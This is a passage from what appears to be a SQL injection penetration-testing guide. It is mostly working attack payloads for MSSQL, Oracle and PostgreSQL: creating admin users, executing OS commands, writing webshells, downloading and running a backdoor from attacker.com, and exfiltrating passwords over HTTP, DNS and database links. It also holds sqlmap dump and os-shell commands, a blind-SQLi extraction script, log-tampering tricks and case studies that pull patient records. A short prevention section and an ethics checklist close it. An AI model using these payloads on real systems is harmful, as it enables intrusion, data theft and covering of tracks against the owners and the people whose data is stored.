    @job_name='backup_task',
    @step_name='cmd_exec',
    @subsystem='CmdExec',
    @command='cmd /c net user hacker P@ssw0rd123 /add'; 
EXEC msdb.dbo.sp_start_job @job_name='backup_task'; --
```

### Oracle Advanced Attacks

```sql
-- Oracle privilege escalation (requires CREATE PROCEDURE)
'; DECLARE
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT DBA TO SCOTT';
    COMMIT;
END; --

-- Java stored procedure for OS commands
'; BEGIN
    EXECUTE IMMEDIATE '
        CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "OSCommand" AS
        import java.io.*;
        public class OSCommand {
            public static String exec(String cmd) {
                try {
                    Process p = Runtime.getRuntime().exec(cmd);
                    BufferedReader in = new BufferedReader(
                        new InputStreamReader(p.getInputStream()));
                    String line;
                    String output = "";
                    while ((line = in.readLine()) != null) {
                        output += line + "\n";
                    }
                    return output;
                } catch (Exception e) {
                    return e.toString();
                }
            }
        }';
END; --

-- Oracle UTL_FILE file write
'; DECLARE
    f UTL_FILE.FILE_TYPE;
BEGIN
    f := UTL_FILE.FOPEN('DIRECTORY', 'shell.jsp', 'w');
    UTL_FILE.PUTF(f, '<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>');
    UTL_FILE.FCLOSE(f);
END; --

-- Oracle UTL_HTTP for data exfiltration
'; SELECT UTL_HTTP.REQUEST(
    'http://attacker.com/?data='||
    (SELECT username||':'||password FROM dba_users WHERE ROWNUM=1)
) FROM dual --

-- Oracle DNS exfiltration
'; SELECT UTL_INADDR.GET_HOST_ADDRESS(
    (SELECT password FROM dba_users WHERE ROWNUM=1)||'.attacker.com'
) FROM dual --
```

### PostgreSQL Advanced Attacks

```sql
-- PostgreSQL large object creation
'; SELECT lo_import('/etc/passwd'); --

-- PostgreSQL file read
'; SELECT pg_read_file('/etc/passwd', 0, 1000); --

-- PostgreSQL file write with COPY
'; COPY (SELECT '<?php system($_GET["cmd"]); ?>') 
TO '/var/www/html/shell.php'; --

-- PostgreSQL program execution
'; COPY (SELECT '') TO PROGRAM 'wget http://attacker.com/backdoor -O /tmp/backdoor'; --
'; COPY (SELECT '') TO PROGRAM '/tmp/backdoor'; --

-- PostgreSQL dblink for data exfiltration
'; CREATE EXTENSION dblink; 
SELECT dblink_connect('host=attacker.com dbname=test user=postgres password=pass'); 
SELECT dblink_exec('INSERT INTO exfil VALUES ('''||(SELECT password FROM users)||''')'); --

-- PostgreSQL privilege escalation
'; ALTER USER postgres WITH SUPERUSER; --

-- PostgreSQL UDF for command execution
'; CREATE OR REPLACE FUNCTION system(cstring) 
RETURNS int AS '/lib/libc.so.6', 'system' 
LANGUAGE 'c' STRICT; 
SELECT system('cat /etc/passwd'); --
```

---

## Automation & Tools

### SQLMap Advanced Usage Flow

```mermaid
graph TD
    A[SQLMap Automation] --> B[Basic Scan]
    A --> C[Advanced Configuration]
    A --> D[Custom Payloads]
    A --> E[Post-Exploitation]
    
    B --> B1[sqlmap -u URL]
    B --> B2[--dbs to enumerate]
    B --> B3[--tables]
    B --> B4[--dump]
    
    C --> C1[--level=5 --risk=3]
    C --> C2[--tamper=scripts]
    C --> C3[--random-agent]
    C --> C4[--proxy]
    C --> C5[--tor]
    
    D --> D1[--sql-query="..."]
    D --> D2[--file-read]
    D --> D3[--file-write]
    D --> D4[--os-shell]
    
    E --> E1[--os-pwn]
    E --> E2[--os-bof]
    E --> E3[--priv-esc]
```

### SQLMap Commands Reference

```bash
# Basic scanning
sqlmap -u "http://target.com/page.php?id=1" --batch

# Advanced detection
sqlmap -u "http://target.com/page.php?id=1" \
    --level=5 \
    --risk=3 \
    --threads=10 \
    --tamper=space2comment,between,randomcase \
    --random-agent \
    --time-sec=2

# Enumerate databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Enumerate tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Dump entire database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump-all

# Extract specific columns
sqlmap -u "http://target.com/page.php?id=1" \
    -D database_name \
    -T users \
    -C username,password \
    --dump

# Read files
sqlmap -u "http://target.com/page.php?id=1" --file-read=/etc/passwd

# Write files (webshell)
sqlmap -u "http://target.com/page.php?id=1" \
    --file-write=shell.php \
    --file-dest=/var/www/html/shell.php

# OS Shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# MSSQL specific
sqlmap -u "http://target.com/page.php?id=1" \
    --dbms=mssql \
    --os-shell \
    --priv-esc

# Using tamper scripts
sqlmap -u "http://target.com/page.php?id=1" \
    --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

# Advanced WAF bypass
sqlmap -u "http://target.com/page.php?id=1" \
    --tamper=between,randomcase,space2comment \
    --random-agent \
    --delay=1 \
    --timeout=10 \
    --retries=3 \
    --tor \
    --check-tor \
    --proxy=socks5://127.0.0.1:9050

# Extract via DNS
sqlmap -u "http://target.com/page.php?id=1" \
    --dns-domain=attacker.com

# Second-order injection
sqlmap -r request.txt \
    --second-url="http://target.com/dashboard.php"
```

### Custom Python Exploitation Scripts

```python
#!/usr/bin/env python3
"""
Advanced Blind SQL Injection Automation Script
For authorized testing only
"""

import requests
import string
import time
from typing import Optional

class BlindSQLiExploiter:
    def __init__(self, target_url: str, param: str):
        self.target_url = target_url
        self.param = param
        self.session = requests.Session()
        self.session.headers.update({
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
        })
    
    def check_vulnerability(self) -> bool:
        """Check if parameter is vulnerable to boolean-based blind SQLi"""
        true_payload = f"' AND 1=1 --"
        false_payload = f"' AND 1=2 --"
        
        true_response = self._send_payload(true_payload)
        false_response = self._send_payload(false_payload)
        
        # Compare response sizes or specific markers
        return len(true_response.text) != len(false_response.text)
    
    def extract_string(self, query: str, max_length: int = 50) -> Optional[str]:
        """Extract string using binary search optimization"""
        result = ""
        
        for position in range(1, max_length + 1):
            char_found = False
            
            # Binary search for character
            low, high = 32, 126  # Printable ASCII range
            
            while low <= high:
                mid = (low + high) // 2
                
                payload = f"' AND ASCII(SUBSTRING(({query}),{position},1)) >= {mid} --"
                
                if self._is_true(payload):
                    low = mid + 1
                    current_char = chr(mid)
                    char_found = True
                else:
                    high = mid - 1
            
            if not char_found:
                break
            
            result += current_char
            print(f"[*] Extracted: {result}", end='\r')
        
        return result
    
    def _send_payload(self, payload: str) -> requests.Response:
        """Send payload and return response"""
        params = {self.param: f"test{payload}"}
        return self.session.get(self.target_url, params=params)
    
    def _is_true(self, payload: str) -> bool:
        """Check if payload returns true"""
        response = self._send_payload(payload)
        # Customize this based on response indicators
        return "Welcome" in response.text 

# Usage
exploiter = BlindSQLiExploiter("http://target.com/page.php", "id")
if exploiter.check_vulnerability():
    print("[+] Vulnerable to blind SQLi")
    password = exploiter.extract_string("SELECT password FROM users WHERE id=1")
    print(f"\n[+] Extracted password: {password}")
```

### Burp Suite Extensions for SQLi

```python
# Burp Suite Python Extension for Advanced SQLi Detection
from burp import IBurpExtender, IScannerCheck, IScanIssue
from java.util import List, ArrayList
import re

class BurpExtender(IBurpExtender, IScannerCheck):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("Advanced SQLi Scanner")
        callbacks.registerScannerCheck(self)
        
        print("[+] Advanced SQLi Scanner loaded")
        
    def doPassiveScan(self, baseRequestResponse):
        issues = ArrayList()
        
        # Analyze response for SQL errors
        response = baseRequestResponse.getResponse()
        if response:
            response_str = self._helpers.bytesToString(response)
            
            sql_errors = [
                "SQL syntax.*MySQL",
                "Warning.*mysql_.*",
                "Microsoft OLE DB Provider for SQL Server",
                "Unclosed quotation mark after the character string",
                "PostgreSQL.*ERROR",
                "Oracle.*Driver",
                "SQLite.*error",
            ]
            
            for error in sql_errors:
                if re.search(error, response_str, re.IGNORECASE):
                    issues.add(self._create_issue(
                        baseRequestResponse,
                        "SQL Error Detected",
                        f"Potential SQL injection vulnerability. Error: {error}",
                        "High"
                    ))
        
        return issues
```

---

## Defense Evasion

### Advanced Defense Evasion Flow



### Log Injection and Anti-Forensics

```sql
-- Log injection to hide tracks
' UNION SELECT 'Normal activity logged' INTO OUTFILE '/var/log/mysql/query.log' --

-- Fake log entries
'; INSERT INTO audit_log (user, action, timestamp) 
   VALUES ('admin', 'Normal login', NOW()) --

-- MSSQL disable logging temporarily
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; --
'; EXEC sp_configure 'scan for startup procs', 0; RECONFIGURE; --

-- Clear query cache
'; RESET QUERY CACHE; --

-- MySQL disable binary logging (requires SUPER)
'; SET SQL_LOG_BIN=0; --
'; SET GLOBAL general_log = 'OFF'; --

-- PostgreSQL disable logging
'; SET log_statement = 'none'; --
```

### Connection String Injection

```sql
-- Time-based exfiltration through connection strings
-- MSSQL
'; EXEC master..xp_dirtree '\\attacker.com\'+@@servername+'share' --

-- PostgreSQL
'; CREATE SERVER attacker_server FOREIGN DATA WRAPPER postgres_fdw 
   OPTIONS (host 'attacker.com', dbname 'exfil', port '5432'); 
CREATE USER MAPPING FOR CURRENT_USER SERVER attacker_server 
    OPTIONS (user 'attacker', password 'password'); 
CREATE FOREIGN TABLE exfil_table (data text) 
    SERVER attacker_server OPTIONS (table_name 'exfil'); 
INSERT INTO exfil_table SELECT password FROM users; --

-- MySQL Federated Table
'; CREATE SERVER fedlink
   FOREIGN DATA WRAPPER mysql
   OPTIONS (USER 'remote', HOST 'attacker.com', DATABASE 'exfil', PORT 3306);
CREATE TABLE exfil_table (
    data TEXT
) ENGINE=FEDERATED
CONNECTION='fedlink/exfil';
INSERT INTO exfil_table SELECT password FROM users; --
```

---

## Real-World Case Studies

### Case Study 1: E-Commerce Platform



### Case Study 2: Banking Application

```sql
-- Initial reconnaissance
' AND 1=1 -- (No error, but different response)

-- Discovered boolean-based blind
' AND (SELECT COUNT(*) FROM accounts) > 0 --

-- Extracted user data via blind
' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)) > 100 --

-- Found second-order injection in transaction history
-- Step 1: Create account with malicious description
INSERT INTO transactions (description) VALUES ('test'' UNION SELECT password FROM users --')

-- Step 2: When admin views transactions
SELECT * FROM transactions WHERE description='test' UNION SELECT password FROM users --'
-- This extracted admin passwords into visible column
```

### Case Study 3: Healthcare Portal

```sql
-- Found error-based injection in patient search
' OR '1'='1' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version))) --

-- Enumerated patient records
' UNION SELECT patient_id, patient_name, diagnosis, NULL FROM patients WHERE '1'='1

-- Extracted PHI (Protected Health Information)
' UNION SELECT 
    CONCAT(ssn, ':', dob, ':', insurance_id),
    medical_history,
    NULL, NULL
FROM patient_records --

-- Used out-of-band exfiltration to avoid detection
' UNION SELECT LOAD_FILE(
    CONCAT('\\\\', 
        (SELECT GROUP_CONCAT(patient_name, ':', diagnosis SEPARATOR '||') 
         FROM patients LIMIT 1),
        '.attacker.com\\exfil')
) --
```

---

## Prevention & Mitigation Strategies

### Secure Coding Practices

```sql
-- Parameterized Queries (Prepared Statements)

-- Java (JDBC PreparedStatement)
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, username);
stmt.setString(2, password);
ResultSet rs = stmt.executeQuery();

-- Python (with parameterization)
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", 
               (username, password))

-- PHP (PDO)
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$stmt->execute(['username' => $username]);

-- Stored Procedures
CREATE PROCEDURE GetUserByUsername(IN p_username VARCHAR(50))
BEGIN
    SELECT * FROM users WHERE username = p_username;
END;
```

### Defense in Depth Architecture



---

## Appendix: Quick Reference Cards

### SQL Injection Payload Cheat Sheet

```sql
-- Basic detection
' OR '1'='1
' OR '1'='1' --
' OR 1=1 --
" OR "1"="1
' OR 1=1 #
' OR '1'='1' /*

-- Comments
-- (MySQL, MSSQL, PostgreSQL)
# (MySQL)
/**/ (MySQL)
;%00 (Oracle, MySQL)

-- Union select
' UNION SELECT @@version --
' UNION ALL SELECT NULL --
' UNION SELECT 1,2,3,...,n --

-- Error-based
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version))) --
' AND UPDATEXML(1, CONCAT(0x7e, (SELECT @@version)), 1) --
' OR 1=CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE ROWNUM=1)) --

-- Blind time-based
' AND (SELECT IF(1=1, SLEEP(5), 0)) --
' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
'; WAITFOR DELAY '0:0:5' --
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) --

-- File operations
' UNION SELECT LOAD_FILE('/etc/passwd') --
' UNION SELECT NULL INTO OUTFILE '/var/www/shell.php' --
'; EXEC xp_cmdshell 'dir' --

-- Out-of-band
' UNION SELECT LOAD_FILE('\\\\attacker.com\\test') --
'; EXEC xp_dirtree '\\\\attacker.com\\test' --
'; SELECT UTL_HTTP.REQUEST('http://attacker.com/'||password) FROM users --
```

### Database Detection Matrix

| Feature | MySQL | MSSQL | Oracle | PostgreSQL | SQLite |
|---------|-------|-------|--------|------------|--------|
| Version | @@version | @@VERSION | v$version | version() | sqlite_version() |
| Concat | CONCAT() | + or CONCAT() | \|\| | \|\| | \|\| |
| Substring | SUBSTRING() | SUBSTRING() | SUBSTR() | SUBSTRING() | SUBSTR() |
| Length | LENGTH() | LEN() | LENGTH() | LENGTH() | LENGTH() |
| Comment | -- # | -- | -- | -- | -- |
| Batched Queries | No (usually) | Yes | No (usually) | Yes | Yes |
| Default DB | mysql | master | SYSTEM | postgres | (file-based) |
| Limit | LIMIT | TOP | ROWNUM | LIMIT | LIMIT |
| Information Schema | Yes | Yes | ALL_TABLES | Yes | sqlite_master |

---

## Final Notes & Best Practices for Testers

### Testing Methodology Checklist

- [ ] Obtain proper written authorization
- [ ] Document scope and limitations
- [ ] Start with passive reconnaissance
- [ ] Identify all input vectors
- [ ] Test each parameter systematically
- [ ] Use automated tools for coverage
- [ ] Verify findings manually
- [ ] Document all discovered vulnerabilities
- [ ] Classify severity accurately
- [ ] Provide remediation recommendations
- [ ] Maintain confidentiality of findings
- [ ] Clean up test data and backdoors

### Ethical Guidelines

1. **Authorization First**: Never test without explicit written permission
2. **Scope Adherence**: Stay within agreed boundaries
3. **Data Protection**: Handle discovered data responsibly
4. **Responsible Disclosure**: Report vulnerabilities properly
5. **Clean Up**: Remove any backdoors or test accounts
6. **Documentation**: Keep detailed records of all testing

---

## References & Resources

### Essential Tools
- SQLMap (sqlmap.org)
- Burp Suite (portswigger.net)
- OWASP ZAP (zaproxy.org)
- NoSQLMap (nosqlmap.net)
- jSQL Injection (jsql-injection.sourceforge.net)

### Learning Resources
- OWASP SQL Injection Prevention Cheat Sheet
- PortSwigger Web Security Academy
- PentesterLab SQL Injection Exercises
- SQL Injection Wiki (sqlwiki.netspi.com)

### Books
- The Web Application Hacker's Handbook
- SQL Injection Attacks and Defense
- Database Hacker's Handbook

---

